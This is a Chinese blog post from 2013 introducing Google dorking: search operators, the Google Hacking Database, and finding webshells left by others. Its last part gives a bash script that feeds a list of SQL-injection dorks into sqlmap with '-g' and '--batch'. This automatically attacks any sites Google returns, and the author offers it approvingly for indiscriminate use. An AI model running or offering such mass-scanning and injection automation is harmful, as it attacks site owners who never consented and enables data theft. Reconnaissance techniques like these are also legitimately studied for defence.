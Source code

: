 ```yaml
---
layout:     post
title:      白帽子第一课：Google Hacking
date:       2013-12-31 09:00:00
summary:    Google 强大的爬虫提供的不仅仅是关键词搜索的结果，稍微加点参数就能把google发挥的淋漓尽致，而这也是非常简单的，所以google hacking 也叫 google dorks，因此这应该是白帽子学习的第一种技能！
---
```


Google 强大的爬虫提供的不仅仅是关键词搜索的结果，稍微加点参数就能把google发挥的淋漓尽致，而这也是非常简单的，所以google hacking 也叫 google dorks，因此这应该是白帽子学习的第一种技能！
google提供的搜索参数非常庞大应该，wiki提供了一个常用参数的列表，而个人按照频率來说主要还是下面几个：
site, filetype, inurl, intitle
当然有的不是以参数出现的，比如"key words"就是完全匹配，还有 or , and等也很常用。

网上有个[GHDB][1]（这也[有个][2]），就是已经收集好的搜索规则，主要用于渗透前的信息收集。

个人觉得会用google比工具党來的还有技术含量点，至少这个需要强大的想象力。

看过有人用google批量找别的X阔留下的webshell，不过现在不太好使了

最黄最暴力的我估计就是批量找sql注入点和xss了，这里是别人的sql的GHDB，写成脚本，放到远程跑去，把解析回来的地址放到sqlmap里跑，爽歪歪！ 简单写了个脚本，[ghdb_sql][3]和脚本放到[sqlmap][4]目录

```bash
#!/bin/bash
cat ghdb_sql | while read line
do
        echo ==================================
        echo use $line
        echo ==================================
        ./sqlmap.py -g "$line" --batch
done
```

了解更多，请自行Google Hacking: `google hacking filetype:pdf`


  [1]: http://www.exploit-db.com/google-dorks/
  [2]: http://www.hackersforcharity.org/ghdb/
  [3]: https://dn-getlink.qbox.me/ghdb_sql
  [4]: http://sqlmap.org/

